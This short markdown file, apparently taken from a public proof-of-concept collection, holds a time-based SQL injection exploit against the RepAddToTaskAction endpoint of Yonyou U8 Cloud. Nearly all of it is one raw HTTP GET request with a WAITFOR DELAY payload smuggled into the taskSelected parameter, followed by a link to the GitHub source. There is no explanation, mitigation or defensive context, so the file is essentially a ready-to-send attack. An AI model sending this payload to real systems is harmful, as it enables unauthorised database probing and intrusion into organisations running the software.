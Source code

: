 # U8C_RepAddToTaskAction_sqli

```
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iuforeport.rep.RepAddToTaskAction&method=save&taskSelected=1%27);WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```
from: https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BOA/%E7%94%A8%E5%8F%8BU8-Cloud%E7%B3%BB%E7%BB%9F%E6%8E%A5%E5%8F%A3RepAddToTaskAction%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md
